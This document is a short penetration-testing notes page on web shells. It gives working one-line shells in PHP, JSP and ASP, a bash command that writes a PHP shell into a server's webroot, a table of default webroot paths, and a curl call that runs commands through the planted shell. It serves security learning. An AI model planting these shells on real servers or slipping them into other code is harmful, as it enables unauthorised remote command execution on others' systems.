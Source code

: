 ```yaml
---
title: Web Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - web shells
---
```


# Web shells

A Web Shell is typically a web script that accepts our command through HTTP request parameters, executes our command, and prints its output back on the web page.

A web shell script is typically a one-liner that is very short and can be memorized easily.

## Some basic web shells

### php

```php
<?php system($_REQUEST["cmd"]); ?>
```

- [Pentesmonkey webshell](pentesmonkey.md).
- [WhiteWinterWolf webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

### jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### asp

```asp
<% eval request("cmd") %>
```


## How to exploit a web shell

### File upload vs Remote code execution

**1.** **FILE UPLOAD: By abusing an upload feature.** We would place this web shell script into the remote host's web directory to execute the script through the web browser.

**2.** **REMOTE CODE EXECUTION: By writting our one-liner shell to the webroot to access it over the web**. This would be if onle have remote command execution as a exploit vector. Here an example for bash:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

So, for the second way of exploitation, it's relevant to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| ------------ | ----------------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ | 
| XAMPP | C:\xampp\htdocs\ | 

### Accessing the web shell

We can access to the web shell using the browser. Or Curl:

```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A  benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. 


## Tools

[About webshells](https://github.com/BlackArch/webshells).

[Laudanum](laudanum.md)

[nishang](nishang.md)
